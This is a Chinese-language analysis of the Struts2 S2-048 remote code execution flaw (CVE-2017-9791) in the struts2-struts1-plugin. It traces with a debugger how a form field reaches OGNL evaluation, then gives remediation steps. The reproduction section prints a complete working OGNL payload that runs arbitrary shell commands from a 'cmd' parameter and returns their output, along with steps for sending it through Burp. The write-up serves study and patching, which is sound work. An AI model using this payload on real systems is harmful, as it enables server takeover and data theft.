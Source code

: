 # Struts2-048漏洞分析 #

![strust2](文档/strust2.jpg)

## 1.&emsp;漏洞描述 ##

* 漏洞描述：当Struts 2中的  Struts 1插件启用的情况下，攻击者通过使用恶意字段值可能造成RCE。这些不可信的输入数据被带入到ActionMessage类中的错误信息中。
* 漏洞编号：CVE-2017-9791
* 漏洞作者：icez ic3z#qq.com
* 影响版本：Struts 2.3.x
* 漏洞等级：高危

## 2.&emsp;漏洞简介 ##

|Question      | Answer          |
| ------------- |:-------------:|
|Who should read this|All Struts 2 developers and users should read this|
|Impact of vulnerability|Possible RCE when using the Struts 2 Struts 1 plugin|
|Maximum security rating|High|
|Recommendation|Please read the Solution section|
|Affected Software|Struts 2.3.x with Struts 1 plugin and Struts 1 action|
|Reporter|icez <ic3z at qq dot com> from Tophant Competence Center|
|CVE Identifier|CVE-2017-9791|

## 3.&emsp;漏洞分析 ##

### 3.1&emsp;漏洞说明 ###

&emsp;&emsp;Apache Struts2.3.x系列版本中struts2-struts1-plugin存在远程代码执行漏洞，进而导致任意代码执行。

### 3.2&emsp;漏洞原理分析 ###

&emsp;&emsp;从官方的漏洞描述我们可以知道，这个漏洞本质上是在struts2-struts1-plugin这个jar包上。这个库是用将struts1的action封装成struts2的action以便在strut2上使用。本质原因还是在struts2-struts1-plugin包中Struts1Action.java中execute函数调用了getText函数，这个函数会执行ognl表达式，更可恶的是getText的输入内容还是攻击者可控的。以下分析基于struts2的官方示例struts2-showcase war包。

&emsp;&emsp;Eclipse直接导入官方showcase.war,反编译出jar包中的源码，进行debug调试。

1. 运行该工程，点击Intergration按钮的Strust1 Intergration功能，进入如下页面：

![](文档/1.png)
2. 在输入框中输入以下参数进入debug模式

![](文档/2.png)
3. 可以看到断点进入struts2-struts1-plugin.jar中的Struts1Action.class中的execute函数，截图处即为调用SaveGangsterAction处，查看actionForm值可以看到我们输入的参数全都传递进来。

![](文档/3.png)
4. 进入org.apache.struts2.showcase.integration包中的SaveGangsterAction.java类，通过gform.getName()获取name参数添加到msg中。
![](文档/8.png)

5. 继续往下走，回到Struts1Action.class中，可以看到把actionForm里的name值经过处理给了messages

![](文档/4.png)
6. 继续跟踪，走到xwork-core.jar的com.opensymphony.xwork2.util包的LocalizedTextUtil.class类

![](文档/5.png)
7. F5进入函数，走到translateVariables函数看到我们的参数expression执行了ognl表达式

![](文档/6.png)
8. 走完回来，继续查看mf的值，可以看到${111+9}已经被执行，执行结果也返回回来

![](文档/7.png)
9. 查看网页，看到${111+9}被执行成120并成功返回到页面中

![](文档/9.png)

## 4.&emsp;漏洞复现(查看文件内容) ##

1. 访问工程的struts1插件功能模块，在输入框输入攻击payload：

		%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
![](文档/10.png)
2. 通过burpsuite进行数据包拦截，拦截到数据包直接send to Repeater，构造任意命令执行转发数据包。在post参数中添加cmd参数执行命令。

![](文档/11.png)<br>
3. 点击Run按钮进行数据包转发，查看结果，成功返回查看文件内容：

![](文档/12.png)

## 5.&emsp;修复方案 ##

*  官方解决方案官方已经发布了版本更新，建议用户升级到Struts 2.5.10.1版本，下载链接如下所示：

[https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1](https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1 "https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1")

[http://struts.apache.org/download.cgi](http://struts.apache.org/download.cgi "http://struts.apache.org/download.cgi")

*  临时修复方案

开发者通过使用资源调用方式替代原始值传递方式给ActionMessage的方式。 如下所示：

	messages.add("msg", new ActionMessage("struts1.gangsterAdded", gform.getName()));

不要使用如下的方式：

	messages.add("msg", new ActionMessage("Gangster" + gform.getName() + "was added"));

* 在非必要的情况下禁用struts2-struts1-plugin插件。将struts2-struts1-plugin-2.3.x.jar文件从 “/WEB-INF/lib”目录中移动到其他文件夹或者删除。
